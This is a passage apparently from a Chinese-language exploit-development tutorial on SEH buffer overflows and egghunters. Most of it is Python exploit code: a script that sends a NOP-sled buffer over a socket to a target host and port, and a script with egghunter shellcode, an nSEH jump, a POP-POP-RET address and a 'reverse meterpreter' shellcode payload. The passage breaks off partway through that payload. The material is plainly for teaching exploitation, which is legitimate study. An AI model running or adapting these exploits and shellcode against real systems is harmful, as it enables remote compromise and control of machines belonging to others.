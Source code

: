 ```
        buffer += "\xf1\xf7\xb0\x12\x48\x55\x90\xb8\xb2\xc9\xe2\xe8"
        # NOP SLED
        buffer += "\x90" * (2504 - len(buffer))
        buffer += "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port))
        sock.send(buffer)
        print "Sent!!"
        sock.close()
```

1.  假设 shellcode 实际上并不在我们在内存中制作的 6 字节跳转之后。在这种情况下，我们可以使用蛋猎手为软件制作一个可靠的利用。

1.  现在听起来可能很容易，但也有一些复杂之处。我们需要我们的最终利用程序遵循我们在图表中提到的流程，但我们还需要确保代码中有足够的 NOPs 来确保利用。

1.  我们的利用流程应该如下所示，就像我们的情况一样，我们有足够的内存来存放 shellcode。但在其他情况下，我们可能没有那么多内存，或者我们的 shellcode 可能存储在内存的其他地方。在这些情况下，我们可以使用蛋猎手，我们将在后面的教程中介绍：

![](img/98bb2d9f-1042-4142-a474-9d170c4f0a7f.png)

1.  根据前面的流程图，我们的 shellcode 看起来应该是这样的：

```
        #!/usr/bin/python
        import socket
        target_address="192.168.110.12"
        target_port=6660
        #Egghunter Shellcode 32 bytes
        egghunter = ""
        egghunter += "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\
          x2e\x3c\x05\x5a\x74"
        egghunter += "\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf
          \x75\xe7\xff\xe7"
        # 6 Bytes SHORT jump to shellcode
        nseh = "\xeb\x09\x90\x90"
        # POP+POP+RET 0x0f9a196a
        seh = "\x6a\x19\x9a\x0f"
        #Shellcode Reverse meterpreter. 360 bytes
        buffer = ""
        buffer += "\xdb\xde\xd9\x74\x24\xf4\xbf\xcf\x9f\xb1\x9a\x5e"
        buffer += "\x31\xc9\xb1\x54\x83\xee\xfc\x31\x7e\x14\x03\x7e"
        buffer += "\xdb\x7d\x44\x66\x0b\x03\xa7\x97\xcb\x64\x21\x72"
        buffer += "\xfa\xa4\x55\xf6\xac\x14\x1d\x5a\x40\xde\x73\x4f"
        buffer += "\xd3\x92\x5b\x60\x54\x18\xba\x4f\x65\x31\xfe\xce"
        buffer += "\xe5\x48\xd3\x30\xd4\x82\x26\x30\x11\xfe\xcb\x60"
        buffer += "\xca\x74\x79\x95\x7f\xc0\x42\x1e\x33\xc4\xc2\xc3"
        buffer += "\x83\xe7\xe3\x55\x98\xb1\x23\x57\x4d\xca\x6d\x4f"
        buffer += "\x92\xf7\x24\xe4\x60\x83\xb6\x2c\xb9\x6c\x14\x11"
        buffer += "\x76\x9f\x64\x55\xb0\x40\x13\xaf\xc3\xfd\x24\x74"
        buffer += "\xbe\xd9\xa1\x6f\x18\xa9\x12\x54\x99\x7e\xc4\x1f"
        buffer += "\x95\xcb\x82\x78\xb9\xca\x47\xf3\xc5\x47\x66\xd4"
        buffer += "\x4c\x13\x4d\xf0\x15\xc7\xec\xa1\xf3\xa6\x11\xb1"
        buffer += "\x5c\x16\xb4\xb9\x70\x43\xc5\xe3\x1c\xa0\xe4\x1b"
        buffer += "\xdc\xae\x7f\x6f\xee\x71\xd4\xe7\x42\xf9\xf2\xf0"
        buffer += "\xa5\xd0\x43\x6e\x58\xdb\xb3\xa6\x9e\x8f\xe3\xd0"
        buffer += "\x37\xb0\x6f\x21\xb8\x65\x05\x24\x2e\x46\x72\x48"
        buffer += "\xa5\x2e\x81\x95\xa8\xf2\x0c\x73\x9a\x5a\x5f\x2c"
        buffer += "\x5a\x0b\x1f\x9c\x32\x41\x90\xc3\x22\x6a\x7a\x6c"
        buffer += "\xc8\x85\xd3\xc4\x64\x3f\x7e\x9e\x15\xc0\x54\xda"
        buffer += "\x15\x4a\x5d\x1a\xdb\xbb\x14\x08\x0b\xda\xd6\xd0"
```